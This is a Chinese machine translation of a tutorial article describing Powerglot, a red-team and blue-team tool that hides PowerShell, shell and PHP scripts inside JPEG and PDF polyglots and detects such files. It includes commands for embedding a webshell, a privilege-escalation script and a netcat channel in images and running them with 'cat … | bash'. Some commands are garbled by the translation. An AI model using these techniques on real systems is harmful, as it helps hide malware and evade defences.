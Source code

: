 # Powerglot:使用多语种编码攻击性 Powershell 脚本

> 原文：<https://kalilinuxtutorials.com/powerglot/>

[![Powerglot : Encodes Offensive Powershell Scripts Using Polyglots](img//e0ceab57b7eb5ea709f609e507760a6b.png "Powerglot : Encodes Offensive Powershell Scripts Using Polyglots")](https://1.bp.blogspot.com/-csf6omBRQ9w/X3x60WDI0ZI/AAAAAAAAHvE/SHKAOJHpGAE3v1D5Vo7C2Poq9ditwYXiwCLcBGAsYHQ/s728/Powerglot%25281%2529.png)

**Powerglot** 使用多种语言对几种脚本进行编码，例如攻击性的 powershell 脚本。不需要装载机来运行有效负载。

在红队演习或进攻任务中，通常通过使用隐写术来屏蔽有效负载，尤其是为了避免网络级保护，这是 powershell 中开发的最常见的有效负载脚本之一。最近的恶意软件和 APT 利用了其中的一些功能:APT32、APT37、Ursnif、Powload、LightNeuron/Turla、Platinum APT、Waterbug/Turla、Lokibot、dukes(幽灵行动)、Titanium 等。

Powerglot 是一款基于 polyglots 的多功能多平台攻防工具。Powerglot 允许主要在数字图像中屏蔽脚本(powershell、shellscripting、php 等)，尽管其他文件格式也在开发中。与通常的攻击性工具或恶意软件不同，Powerglot 不需要任何加载程序来执行“信息隐藏”，最大限度地减少了对目标系统的干扰。

PowerGlot 在进攻任务中有明确的用途，但它也被定义为发现和蓝队工具。据我们所知，它是第一个通用和完整的开源工具，允许使用多语种搜索屏蔽信息的存在，这些信息可能有助于实现系统中的持久性或隐藏恶意软件(隐写恶意软件、权限提升、横向移动、反向外壳等)。)

**特性**

*   编码 powershell/shell 脚本/php/..在一个多语言的图像中。不需要加载程序来恢复/执行隐藏信息(有效载荷)。PowerGlot 支持多种格式。主要是 JPEG 和 PDF 格式。其他格式正在开发中。
*   Powerglot 是一个完整的开源工具，用于检测(恶意)polyglots，特别是一些公共工具如 Truepolyglot 或 stegoSploit 的结果。我们以几种格式工作:JPEG，PNG，GIF，BMP，ZIP，PDF，MP3 等。

**安装**

# git 克隆 https://github.com/mindcrypt/powerglot
# python 3 power glot

**用途&参数**

一些使用 polyglots 和 Powerglot 隐藏有效载荷的例子；

#示例 1–在 JPEG 图像中隐藏 powershell/php/shell 脚本

# python 3 powerglot . py-o payload . PS1 cat.jpg cat-hidden1.jpg
# python 3 powerglot . py-o webshell.php cat.jpg cat-hidden2.jpg
# python 3 powerglot . py-o shell . sh cat.jpg cat-hidden3.jpg

#示例 2–在 JPEG 图像中隐藏权限提升的 shell 脚本(linenum . sh)

# python 3 powerglot . py-o linenum。
#我们可以通过几种方式执行脚本:

a)cat cat-linenum | bash
b)chmod+x cat-linenum.jpeg； 。/cat-linenum.jpeg

#示例 3–在 JPEG 图像中隐藏隐蔽通道 with netcat

#攻击者
# echo " NC 127 . 0 . 0 . 1 4444 ">netcat . sh
# python 3 powerglot . py-o netcat . sh cat.jpeg cat-netcat.jpeg
# NC-nvlp 4444

#受害者
# chmod+x cat-netcat.jpg |。/cat-netcat.jpg

在我们的文件系统中检测多语言的一些例子

# python 3 powerglot . py-d ./
–=【检测多种语言】–=
…………………………………………..
【可疑文件】-[。/cat-end-extra2.jpg ]..
【可疑文件】-[。/cat-end-extra 3 . jpg][Polyglot Stegosploit][EOF 签名:*/–>

【可疑文件】-[。/cat-end-extra1.jpg ]..

![](img//7a8320d4b72ccb0359a3083f9aafac3e.png)

**未来的工作。做什么**

*   我们正在努力支持不同的文件格式，以便用多种语言对信息进行编码。目前，我们支持 JPEG 和 PDF 中的几种技术。
*   我们正致力于整合不同格式的多语言检测规则。目前，检测 JPEG 文件中是否存在 StegoSploit(在 FFD9 后添加*/–>

**作者&执照**

这个项目是由阿方索·穆尼奥斯博士和亚伯拉罕·帕萨马尔开发的。代码是在 GNU 通用公共许可证 v3 下发布的。

[**Download**](https://github.com/mindcrypt/powerglot)